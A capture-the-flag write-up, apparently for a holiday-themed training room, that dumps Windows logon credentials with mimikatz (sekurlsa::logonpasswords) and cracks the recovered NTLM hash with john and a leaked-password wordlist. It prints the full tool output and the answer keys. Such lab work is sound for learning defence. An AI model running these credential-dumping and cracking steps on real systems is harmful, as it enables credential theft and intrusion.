 # `[Post Exploitation]` Learning From The Grinch

## Story
> McSkidy has learned a lot about how Grinch Enterprises operates and wants to prepare for any future attacks from anyone who hates Christmas. From a forensics analysis they did, she noticed that the Grinch Enterprises performed some malicious activities. She wants to perform these on the same machine they compromised to understand her adversaries a little better. Can you follow along and help her prepare for any other attacks?

### What is the username of the other user on the system? `*****`

Had to use `mimikatz.exe` on a virtual machine in order to extract the data.

```powershell
PS C:\Users\Administrator\Desktop\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 612908 (00000000:00095a2c)
Session           : Interactive from 0
User Name         : emily
Domain            : THM
Logon Server      : THM
Logon Time        : 12/24/2021 3:52:11 PM
SID               : S-1-5-21-1966530601-3185510712-10604624-1009
        msv :
         [00000003] Primary
         * Username : emily
         * Domain   : THM
         * NTLM     : 8af326aa4850225b75c592d4ce19ccf5
         * SHA1     : 8c4c6c4e493ec2beef5f6f6a9c4472c13bed42e8
        tspkg :
        wdigest :
         * Username : emily
         * Domain   : THM
         * Password : (null)
        kerberos :
         * Username : emily
         * Domain   : THM
         * Password : (null)
        ssp :
        credman :
```

<details>
  <summary>Answer:</summary>

```
emily
```
</details>

### What is the NTLM hash of this user? `********************************`

<details>
  <summary>Answer:</summary>

```
8af326aa4850225b75c592d4ce19ccf5
```
</details>

### What is the password for this user? `**********`

Used `john` for this:

```shell
$ echo "8af326aa4850225b75c592d4ce19ccf5" > hash.txt
$ john --format=NT -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash.txt --pot=output.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
1234567890       (?)
1g 0:00:00:00 DONE (2021-12-24 16:00) 14.28g/s 1371p/s 1371c/s 1371C/s 123456..yellow
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
$ cat output.txt
$NT$8af326aa4850225b75c592d4ce19ccf5:1234567890
```

<details>
  <summary>Answer:</summary>

```
1234567890
```
</details>
